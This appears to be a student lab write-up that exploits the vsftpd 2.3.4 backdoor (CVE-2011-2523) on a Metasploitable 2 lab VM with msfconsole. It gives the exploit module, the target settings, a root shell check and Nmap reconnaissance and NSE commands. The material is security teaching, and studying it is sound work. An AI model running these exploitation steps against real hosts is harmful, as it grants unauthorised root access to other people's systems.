# Assignment 3 — CVE Exploration & Exploitation using Metasploit + Nmap on Kali

**Tools:** Metasploit Framework (`msfconsole`) · Nmap · Kali Linux · Metasploitable 2  
**Platform:** VMware / VirtualBox — Host-only Network

---

## Objective

Explore CVE (Common Vulnerabilities and Exposures) entries, attempt exploitation of a known vulnerability using `msfconsole`, and execute basic Nmap commands on Kali Linux.

---

## Theory

### CVE — Common Vulnerabilities and Exposures
CVEs are standardized identifiers for publicly known cybersecurity vulnerabilities. Each entry includes:
- **CVE ID** — e.g., `CVE-2011-2523`
- **CVSS Score** — severity rating (0–10)
- **Description** — what the vulnerability is
- **Affected software/version**
- **Exploit availability**

**Key resources:**
- https://cve.mitre.org
- https://nvd.nist.gov
- https://www.exploit-db.com

### Metasploit Framework
Metasploit is the world's most widely used penetration testing framework. The `msfconsole` interface provides access to:
- **Exploits** — code that leverages a specific CVE
- **Payloads** — shellcode executed after exploitation (e.g., Meterpreter)
- **Auxiliary modules** — scanners, fuzzers, DoS tools
- **Post modules** — post-exploitation (privilege escalation, persistence)

---

## CVE Explored

### CVE-2011-2523 — vsftpd 2.3.4 Backdoor
| Field | Details |
|-------|---------|
| **CVE ID** | CVE-2011-2523 |
| **CVSS Score** | 10.0 (Critical) |
| **Affected Software** | vsftpd 2.3.4 |
| **Vulnerability** | A backdoor was introduced into vsftpd 2.3.4 source code. Connecting with a username ending in `:)` triggers a bind shell on port 6200 |
| **Metasploit Module** | `exploit/unix/ftp/vsftpd_234_backdoor` |

---

## Procedure

### Step 1 — Nmap scan to identify vsftpd version
```bash
nmap -sV -p 21 192.168.56.129
# Expected: 21/tcp open ftp vsftpd 2.3.4
```

### Step 2 — Launch Metasploit
```bash
msfconsole
```

### Step 3 — Search for the exploit
```bash
msf6 > search vsftpd
msf6 > search cve:2011-2523
```

### Step 4 — Load and configure the exploit
```bash
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
msf6 exploit(vsftpd_234_backdoor) > show options
msf6 exploit(vsftpd_234_backdoor) > set RHOSTS 192.168.56.129
msf6 exploit(vsftpd_234_backdoor) > set RPORT 21
```

### Step 5 — Run the exploit
```bash
msf6 exploit(vsftpd_234_backdoor) > exploit
# [*] 192.168.56.129:21 - Banner: 220 (vsFTPd 2.3.4)
# [*] Command shell session 1 opened
```

### Step 6 — Verify shell access
```bash
whoami        # should return: root
hostname
id
uname -a
```

### Step 7 — Additional Nmap commands on Kali
```bash
# Scan localhost
nmap localhost
nmap -sV localhost

# Scan Metasploitable with scripts
nmap --script ftp-vsftpd-backdoor 192.168.56.129
nmap --script http-title 192.168.56.129 -p 80
nmap --script ssh-hostkey 192.168.56.129 -p 22

# Save scan results
nmap -oA ~/full_scan 192.168.56.129
```

---

## msfconsole Command Reference

| Command | Purpose |
|---------|---------|
| `search <term>` | Search for exploits/modules |
| `use <module>` | Load a module |
| `show options` | Show required/optional parameters |
| `set <option> <value>` | Set a parameter |
| `show payloads` | List compatible payloads |
| `set payload <payload>` | Choose a payload |
| `exploit` / `run` | Launch the attack |
| `sessions` | List active sessions |
| `sessions -i <id>` | Interact with a session |
| `background` | Background current session |
| `exit` | Quit msfconsole |

---

## Screenshots

| # | Description | Screenshot |
|---|-------------|------------|
| 1 | CVE research — MITRE/NVD lookup |  |
| 2 | Nmap scan — identifying vsftpd 2.3.4 |  |
| 3 | `msfconsole` launch |  |
| 4 | `search vsftpd` — module discovery |  |
| 5 | `use` exploit module + `show options` |  |
| 6 | `set RHOSTS` — target configuration |  |
| 7 | `exploit` — attack launched |  |
| 8 | Shell session opened — `whoami` / `id` |  |
| 9 | Post-exploitation commands |  |
| 10 | Nmap NSE script — `ftp-vsftpd-backdoor` |  |
| 11 | Nmap localhost scan on Kali |  |
| 12 | Additional Nmap flags demonstrated |  |
| 13 | `nmap -A` aggressive scan output |  |
| 14 | Nmap saved output files |  |
| 15 | Second CVE / module explored |  |
| 16 | Additional exploit/session |  |
| 17 | Final results summary |  |

---

## Conclusion

CVE-2011-2523 (vsftpd 2.3.4 backdoor) was successfully exploited using the Metasploit Framework, gaining root shell access to the Metasploitable 2 target. Nmap was used both for pre-exploitation reconnaissance (service version detection) and post-analysis (NSE scripts). This lab demonstrated the full offensive security workflow: CVE research → scanning → exploitation → post-exploitation.
